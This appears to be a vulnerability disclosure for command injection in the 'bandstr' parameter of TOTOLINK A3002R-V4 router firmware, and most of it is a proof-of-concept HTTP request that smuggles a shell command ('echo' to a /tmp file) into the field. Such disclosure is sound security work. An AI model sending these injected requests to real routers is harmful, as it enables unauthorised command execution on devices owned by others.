# totolink_A3002R_remote_command_exec
**description**: a Remote-Command-Execution  in /bin/boa on totolink A3002R-V4.0.0-B20230531.1404 via bandstr


## Firmware
**brand**:totolink   

**product**:A3002R-V4 

**version**:V4.0.0-B20230531.1404

**addr**:0045a2a4, fun:FUN_0045a1f8

The firmware can be downloaded from this website[1] and using FirmAE to simulate the router environment.   
The command is 

![alt text](./img/image-2.png)

# poc
burp suite change the packet as follow
```
POST /boafrm/formMapDelDevice HTTP/1.1

Host: 192.168.0.1

User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:88.0) Gecko/20100101 Firefox/88.0

Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8

Accept-Language: en-US,en;q=0.5

Accept-Encoding: gzip, deflate

Content-Type: application/x-www-form-urlencoded

Content-Length: 146

Origin: http://192.168.0.1

Connection: close

Referer: http://192.168.0.1/map_del_device

Upgrade-Insecure-Requests: 1



sessionCheck=5ef3b954a1316eeedf1d36330046c0ca&submit-url=%2FformMapDelDevice.htm&macstr=123&clientoff=no&bandstr=123;echo%20123456%20>/tmp/rec1.txt
```
![alt text](./img/image.png)
[1]:https://www.totolink.net/home/menu/detail/menu_listtpl/download/id/258/ids/36.html
